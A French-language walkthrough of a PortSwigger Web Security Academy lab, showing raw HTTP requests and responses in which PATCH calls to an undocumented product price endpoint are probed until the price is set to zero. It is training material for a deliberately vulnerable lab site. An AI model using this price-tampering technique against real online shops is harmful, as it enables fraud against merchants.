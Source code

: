# Lab

https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint

## Solution

Sur ce lab, quand on va sur un produit, on voit un appel GET qui est envoyé vers `/api/products/[productId: Int]/price` :

```http
GET /api/products/1/price HTTP/2
Host: 0a00003503392bda814e3eeb00e700d7.web-security-academy.net
Cookie: session=azbsyzbH5fLv2qYRw95l4eWeC4PLKblk
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a00003503392bda814e3eeb00e700d7.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 75

{"price":"$1337.00","message":"6 people have viewed this item in the last 3h"}
```

Si on essaie d'envoyer un `PATCH` sur cette route, on obtient une erreur nous indiquant qu'uniquement le contenu `application/json` est accepté :

```http
PATCH /api/products/1/price HTTP/2
Host: 0a00003503392bda814e3eeb00e700d7.web-security-academy.net
Cookie: session=azbsyzbH5fLv2qYRw95l4eWeC4PLKblk
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a00003503392bda814e3eeb00e700d7.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Content-Length: 0
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93

{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}
```

On peut donc essayer d'envoyer un `PATCH` avec un contenu `application/json` :

```http
PATCH /api/products/1/price HTTP/2
Host: 0a00003503392bda814e3eeb00e700d7.web-security-academy.net
Cookie: session=azbsyzbH5fLv2qYRw95l4eWeC4PLKblk
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a00003503392bda814e3eeb00e700d7.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Content-Type: application/json
Content-Length: 0
```

```http
HTTP/2 500 Internal Server Error
Content-Length: 21

Internal Server Error
```

Là on a une erreur 500, ce qui veut dire qu'on a réussi à envoyer un contenu `application/json` au serveur.

Si on essaie de changer le prix du produit en envoyant le retour du GET :

```http
PATCH /api/products/1/price HTTP/2
Host: 0a00003503392bda814e3eeb00e700d7.web-security-academy.net
Cookie: session=azbsyzbH5fLv2qYRw95l4eWeC4PLKblk
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a00003503392bda814e3eeb00e700d7.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Content-Type: application/json
Content-Length: 14

{"price":"$0"}
```

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 98

{"type":"ClientError","code":400,"error":"'price' parameter must be a valid non-negative integer"}
```

On obtient une erreur nous indiquant que le paramètre `price` doit être un entier positif.

On peut donc essayer d'envoyer un entier positif :

```http
PATCH /api/products/1/price HTTP/2
Host: 0a00003503392bda814e3eeb00e700d7.web-security-academy.net
Cookie: session=azbsyzbH5fLv2qYRw95l4eWeC4PLKblk
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a00003503392bda814e3eeb00e700d7.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Content-Type: application/json
Content-Length: 14

{"price":0}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```

Maintenant le prix du produit est à 0 et on peut l'acheter pour réussir le lab.